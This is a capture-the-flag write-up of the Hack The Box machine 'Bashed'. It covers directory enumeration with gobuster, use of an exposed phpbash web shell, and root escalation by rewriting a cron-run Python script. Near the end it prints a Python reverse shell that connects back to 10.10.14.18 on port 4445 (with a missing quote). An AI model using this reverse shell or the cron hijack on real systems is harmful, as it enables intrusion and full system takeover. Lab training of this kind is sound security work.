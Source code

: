 ```yaml
---
title: Bashed
date: 2021-01-25
excerpt: "'Bashed' is an easy rated box on Hack the Box. We'll use gobuster to uncover some hidden directories on a webserver, use a custom bash/php client to gain a shell and exploit a script being run as a cronjob for root"
classes: wide
categories: HackTheBox
tags:
  - htb
  - cron
  - gobuster
  - python
---
```



![img](/assets/images/htb/bashed/0.png)

### Port Scanning, General Enumeration and Access (Nmap, Gobuster)
* Reading/Resources
  * [Nmap manual](https://nmap.org/book/man.html)
  * [Gobuster](https://github.com/OJ/gobuster)

Initial scan showed that the only port available is 80 (HTTP)


![img](/assets/images/htb/bashed/1.png)


![img](/assets/images/htb/bashed/2.png)

Looks like a pretty neat tool, but not a lot to go on.

`gobuster dir -u http://10.10.10.68/ -w /dirs/small.txt -x php`


![img](/assets/images/htb/bashed/3.png)

`/dev`?


![img](/assets/images/htb/bashed/4.png)

found the phpbash thing!


![img](/assets/images/htb/bashed/5.png)


![img](/assets/images/htb/bashed/6.png)

---

### Privesc (php reverse shell, python, cronjobs)
* Reading/Resources
  * [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
  * [python](https://docs.python.org/3/)
  * [cronjobs](https://ostechnix.com/a-beginners-guide-to-cron-jobs/)
  
We can upload files to the `/uploads` directory in the webroot


![img](/assets/images/htb/bashed/7.png)

Let's get a real shell


![img](/assets/images/htb/bashed/8.png)

`python3 -c 'import pty; pty.spawn("/bin/bash")'`


![img](/assets/images/htb/bashed/9.png)

Easy enough to switch to `scriptmanager`

`sudo -u scriptmanager /bin/bash`

There's a scripts folder owned by `scriptmanager`


![img](/assets/images/htb/bashed/10.png)


![img](/assets/images/htb/bashed/11.png)

Interesting, the python script is ours but text file is owned by root?


![img](/assets/images/htb/bashed/12.png)

I see, so the script runs and creates that file. 


![img](/assets/images/htb/bashed/13.png)

Moving the old `test.txt` to `test.txt.bak` and re-running the script we can see that the new `test.txt` is owned by us. That leads me to believe that something with root privs ran that prior. Maybe a cronjob? Let's test


![img](/assets/images/htb/bashed/14.png)

It's back and with root privs!

Let's give this boring old `test.py` some fangs.

```Python
import socket,subprocess,os,pty
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.18,4445))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/bash")
```

I created the new `test.py` on my machine and transferred it over. Started a listener and...


![img](/assets/images/htb/bashed/15.png)


![img](/assets/images/htb/bashed/16.png)
